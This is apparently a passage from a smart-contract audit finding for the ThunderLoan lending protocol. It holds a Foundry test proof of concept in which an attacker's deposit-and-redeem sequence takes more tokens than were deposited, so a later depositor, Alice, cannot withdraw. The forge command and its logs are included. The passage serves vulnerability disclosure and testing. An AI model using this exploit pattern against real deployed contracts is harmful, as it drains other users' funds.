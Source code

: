 ```solidity
        vm.startPrank(attacker);
        tokenA.approve(address(thunderLoan), ATTACKER_AMOUNT);
        /// First deposit in contract by attacker
        thunderLoan.deposit(tokenA, ATTACKER_AMOUNT);
        vm.stopPrank();
        AssetToken asset = thunderLoan.getAssetFromToken(tokenA);
        uint256 contractBalanceAfterAttackerDeposit = tokenA.balanceOf(address(asset));
        uint256 difference = ATTACKER_AMOUNT - contractBalanceAfterAttackerDeposit;
        uint256 attackerAssetTokenBalance = asset.balanceOf(attacker);
        console2.log(contractBalanceAfterAttackerDeposit, "Contract balance of token A after first deposit"); 
        console2.log(attackerAssetTokenBalance, "attacker balance of asset token");
        console2.log(difference, "difference b/w actual amount and deposited amount"); 

        
        vm.startPrank(alice);
        tokenA.approve(address(thunderLoan), ALICE_AMOUNT);
        thunderLoan.deposit(tokenA, ALICE_AMOUNT);
        vm.stopPrank();
        uint256 actualAmountDepositedByUser = tokenA.balanceOf(address(asset)) - contractBalanceAfterAttackerDeposit;
        console2.log(ALICE_AMOUNT, "Actual input by alice");
        console2.log(actualAmountDepositedByUser, "Actual balance Deposited by Alice"); 
        console2.log(tokenA.balanceOf(address(asset)), "thunderloan balance of Token A after Alice deposit");
        console2.log(asset.balanceOf(alice), "Alice Asset Token Balance");

        vm.startPrank(attacker);
        thunderLoan.redeem(tokenA, asset.balanceOf(attacker));
        console2.log(tokenA.balanceOf(attacker), "AttackerBalance"); // how much token he claimed
        vm.stopPrank();

        /// if alice try to claim her underlying tokens now, tx will fail as contract
        /// don't have enough funds

        vm.startPrank(alice);
        uint256 amountToClaim = asset.balanceOf(alice);
        vm.expectRevert(); 
        thunderLoan.redeem(tokenA, amountToClaim);
        vm.stopPrank();       

    }
}
```

run the following command in terminal `forge test --match-test testAttackerGettingMoreTokens() -vv`
it will return something like this-
```terminal
[⠒] Compiling...
[⠊] Compiling 1 files with 0.8.20
[⠒] Solc 0.8.20 finished in 1.94s
Compiler run successful!

Running 1 test for test/unit/ThunderLoanTest.t.sol:ThunderLoanTest
[PASS] testAttackerGettingMoreTokens() (gas: 1265386)
Logs:
  19800000000000000000000000 Contract balance of token A after first deposit
  20000000000000000000000000 attacker balance of asset token
  200000000000000000000000 difference b/w actual amount and deposited amount
  10000000000000000000000000 Actual input by alice
  9900000000000000000000000 Actual balance Deposited by Alice
  29700000000000000000000000 thunderloan balance of Token A after Alice deposit
  9970089730807577268195413 Alice Asset Token Balance
  19879279219760479041600000 AttackerBalance
```